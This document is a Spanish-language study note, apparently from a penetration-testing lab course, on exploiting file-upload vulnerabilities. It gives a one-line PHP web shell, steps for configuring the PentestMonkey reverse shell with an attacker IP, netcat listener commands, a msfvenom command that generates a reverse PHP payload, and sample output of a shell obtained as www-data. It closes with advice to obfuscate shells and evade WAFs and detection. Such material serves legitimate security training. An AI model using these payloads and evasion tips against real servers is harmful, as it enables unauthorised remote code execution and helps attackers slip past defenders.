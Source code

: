 ## **Explotación de Aplicaciones Web Mediante Carga de Archivos Maliciosos**

### **Carga de Web Shells**

Una **Web Shell** es un script malicioso que proporciona acceso remoto al servidor a través de un navegador. Existen diversas opciones en línea con múltiples funcionalidades, como:

- **phpbash** (semi-interactivo con terminal).
- **Web shells de SecLists**, almacenados en `/opt/useful/seclists/Web-Shells` en PwnBox.

#### **Procedimiento de Explotación**

1. Descargar un web shell adecuado para el lenguaje del servidor, en este caso **PHP**.
2. Subir el archivo malicioso `phpbash.php` a la aplicación vulnerable.
3. Acceder a `http://SERVER_IP:PORT/uploads/phpbash.php`.
4. Ejecutar comandos en el servidor comprometido.

Esto nos permite enumerar directorios, transferir archivos y realizar otras acciones maliciosas.

#### **Creación de un Web Shell Manualmente**

Si no se dispone de herramientas en línea, se puede escribir un web shell básico en PHP:

```php
<?php system($_REQUEST['cmd']); ?>
```

- Guardar como `shell.php` y subirlo a la aplicación.
- Ejecutar comandos accediendo a:
    
    ```
    http://SERVER_IP:PORT/uploads/shell.php?cmd=id
    ```
    

Para mejorar la visibilidad en el navegador, se recomienda abrir la vista de código fuente con **CTRL+U**.

---

### **Carga de Reverse Shells**

Un **Reverse Shell** permite que el servidor comprometido se conecte a la máquina del atacante, proporcionando control interactivo.

#### **Uso de una Reverse Shell de PentestMonkey**

1. Descargar `php-reverse-shell.php`.
2. Modificar las líneas 49 y 50 con la IP y puerto del atacante:
    
    ```php
    $ip = 'OUR_IP';     // CAMBIAR ESTO
    $port = OUR_PORT;   // CAMBIAR ESTO
    ```
    
3. Iniciar un listener en el puerto especificado:
    
    ```
    nc -lvnp OUR_PORT
    ```
    
4. Subir el script a la aplicación y acceder a su enlace:
    
    ```
    http://SERVER_IP:PORT/uploads/reverse.php
    ```
    
5. Si la explotación es exitosa, se recibirá una conexión interactiva en Netcat:
    
    ```
    connect to [OUR_IP] from (UNKNOWN) [188.166.173.208] 35232
    # id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```
    

---

### **Generación de Reverse Shells Personalizadas**

Se pueden generar payloads con `msfvenom` para optimizar la explotación:

```bash
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

6. Iniciar un listener en Netcat.
7. Subir el script `reverse.php` y acceder a su enlace.
8. Recibir la conexión remota.

---

### **Consideraciones de Seguridad**

- **Firewalls y restricciones** pueden bloquear conexiones salientes, afectando la ejecución de reverse shells.
- **Web Application Firewalls (WAFs)** pueden detectar funciones peligrosas (`system()`, `eval()`, etc.), requiriendo técnicas de evasión avanzadas.
- **El uso de web shells puede ser detectado**, por lo que se recomienda ofuscar el código o usar métodos alternativos como técnicas de tunneling.

En resumen, las **web shells** permiten control rápido mediante HTTP, mientras que las **reverse shells** ofrecen una conexión más estable e interactiva.
